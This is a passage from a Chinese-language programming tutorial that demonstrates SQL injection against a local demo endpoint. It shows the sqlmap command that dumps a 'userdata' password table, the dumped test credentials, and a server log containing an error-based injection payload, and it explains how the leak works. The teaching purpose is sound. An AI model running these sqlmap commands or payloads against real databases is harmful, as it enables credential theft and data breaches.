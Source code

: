 可以看到其中有一个敏感表userdata：

```
Database: common_mistakes
[7 tables]
+--------------------+
| user               |
| common_store       |
| hibernate_sequence |
| m                  |
| news               |
| r                  |
| userdata           |
+--------------------+

```

第三步，查询userdata的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump

```

你看， **用户密码信息一览无遗。当然，你也可以继续查看其他表的数据**：

```
Database: common_mistakes
Table: userdata
[2 entries]
+----+-------+----------+
| id | name  | password |
+----+-------+----------+
| 1  | test1 | haha1    |
| 2  | test2 | haha2    |
+----+-------+----------+

```

在日志中可以看到，sqlmap实现拖库的方式是，让SQL执行后的出错信息包含字段内容。注意看下错误日志的第二行，错误信息中包含ID为2的用户的密码字段的值“haha2”。这，就是报错注入的基本原理：

```
[13:22:27.375] [http-nio-45678-exec-10] [ERROR] [o.a.c.c.C.[.[.[/].[dispatcherServlet]:175 ] - Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is org.springframework.dao.DuplicateKeyException: StatementCallback; SQL [SELECT id,name FROM userdata WHERE name LIKE '%test'||(SELECT 0x694a6e64 WHERE 3941=3941 AND (SELECT 9927 FROM(SELECT COUNT(*),CONCAT(0x71626a7a71,(SELECT MID((IFNULL(CAST(password AS NCHAR),0x20)),1,54) FROM common_mistakes.userdata ORDER BY id LIMIT 1,1),0x7170706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'%']; Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'; nested exception is java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'] with root cause
java.sql.SQLIntegrityConstraintViolationException: Duplicate entry 'qbjzqhaha2qppbq1' for key '<group_key>'

```
